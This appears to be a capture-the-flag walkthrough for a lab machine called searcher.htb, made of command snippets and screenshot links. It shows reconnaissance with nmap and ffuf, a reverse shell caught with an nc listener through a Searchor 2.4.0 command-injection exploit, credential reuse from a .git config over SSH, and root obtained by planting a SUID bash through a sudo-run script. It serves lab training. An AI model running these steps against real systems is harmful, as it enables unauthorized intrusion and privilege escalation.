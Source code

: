 ```
nmap -sS -sC -sV -T5 -Pn 10.10.11.208
```
![image](https://github.com/user-attachments/assets/b87356b0-328d-4e3f-9d77-9931a3f05397)

```
ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-medium-words-lowercase.txt -u http://searcher.htb/FUZZ -e .aspx,.php,.txt,.html,.sh
```
![image](https://github.com/user-attachments/assets/d9bc1e67-58eb-4ac9-845e-722262c25cd1)

```
http://searcher.htb/
Flask and Searchor 2.4.0
```
![image](https://github.com/user-attachments/assets/bd4e8d89-c572-47ff-aed8-78849d8ecfa0)

```
https://github.com/nikn0laty/Exploit-for-Searchor-2.4.0-Arbitrary-CMD-Injection
nc -lvnp 9001
./exploit.sh searcher.htb 10.10.14.6
```
![image](https://github.com/user-attachments/assets/0c8ae1ca-65ee-4482-a470-d158ca0885ac)

![image](https://github.com/user-attachments/assets/75afe791-f94b-46c5-95c0-2377531e07b5)

```
./LinEnum.sh
```
![image](https://github.com/user-attachments/assets/fd501ed2-f7f8-4011-b4f8-c765d4eaabae)

```
ls –la
cat /var/www/app/.git/config
jh1usoih2bkjaspwe92
```
![image](https://github.com/user-attachments/assets/85d62632-00cc-42cc-8da1-7f6413235d1c)

```
ssh svc@10.10.11.208
```
![image](https://github.com/user-attachments/assets/586273ab-cf7c-4e40-bfe5-b9120eeab1d2)

```
http://gitea.searcher.htb/
http://gitea.searcher.htb/explore/users
```
![image](https://github.com/user-attachments/assets/d6e218ad-6de1-4bdf-a6fc-2089c28078df)

![image](https://github.com/user-attachments/assets/519c8951-5394-4350-aec1-b75be2a8b901)

```
sudo –l
ls -l /opt/scripts/system-checkup.py
```
![image](https://github.com/user-attachments/assets/73f7879c-6a72-4aa0-803f-a00969f0f4fc)

```
sudo /usr/bin/python3 /opt/scripts/system-checkup.py *
```
![image](https://github.com/user-attachments/assets/86e9740e-c3ed-4727-b569-a40d4a0c4e7d)

```
sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-ps
sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-inspect
```
![image](https://github.com/user-attachments/assets/bf255e72-2c04-40fc-a1bb-5c1c4acc38b0)

```
sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-inspect '{{json .}}' gitea | jq
yuiu1hoiu4i5ho1uh
```
![image](https://github.com/user-attachments/assets/3685c0b4-d22d-40a3-b6d3-7310cb3eaf89)

```
http://gitea.searcher.htb/
Login as administrator
http://gitea.searcher.htb/administrator/scripts
```
![image](https://github.com/user-attachments/assets/4576ac3a-928d-4aa2-92f5-a53ceed289b0)

![image](https://github.com/user-attachments/assets/842814c0-3185-4082-9fda-8ec21de91264)

```
cd /opt/scripts/
sudo /usr/bin/python3 /opt/scripts/system-checkup.py full-checkup
```
![image](https://github.com/user-attachments/assets/e601cf8e-8c93-46e5-8690-e27c9e92d6cc)

```
cd /tmp
echo -e '#!/bin/bash\n\ncp /bin/bash /tmp/0xdf\nchmod 4777 /tmp/0xdf' > full-checkup.sh
chmod +x full-checkup.sh
sudo python3 /opt/scripts/system-checkup.py full-checkup
ls -l /tmp/0xdf
/tmp/0xdf -p
```
![image](https://github.com/user-attachments/assets/ba0cbc60-a1a6-424f-8c43-b75a15663089)
